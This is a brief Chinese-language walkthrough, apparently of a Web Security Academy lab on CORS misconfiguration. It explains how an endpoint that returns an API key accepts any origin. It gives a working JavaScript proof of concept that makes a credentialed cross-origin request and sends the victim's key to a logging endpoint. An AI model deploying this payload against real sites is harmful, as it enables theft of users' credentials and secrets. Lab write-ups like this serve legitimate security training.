 

![](images/9CFC99DC38A54F39BC2ECD178E451FE9clipboard.png)

首页会显示用户的api密码（在实际渗透中可以是个人敏感信息，csrf令牌....)

![](images/948B366CE323426C9421A6132E6FD0DBclipboard.png)

观察到api密钥是通过一个ajax接口返回到页面。直接访问接口，并将请求来源跟改为任意网站可以获取到密钥，说明存在cors漏洞

![](images/06241A7E81BD4BD8B925AAE265C88854clipboard.png)



poc:

```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://ac0c1f2b1efc321180e1a18c007100d3.web-security-academy.net/accountDetails',true);
   //
   req.withCredentials = true;
   req.send();

   function reqListener() {
    location='/log?key='+this.responseText;
   };
</script>
```

将该脚本部署到恶意网站，用户访问即可记录下受害者的api密钥

在访问记录中，发现被记录的api密钥，提交即可

![](images/F06ACBB3ADF14BAD893C6A473FEDEE1Dclipboard.png)

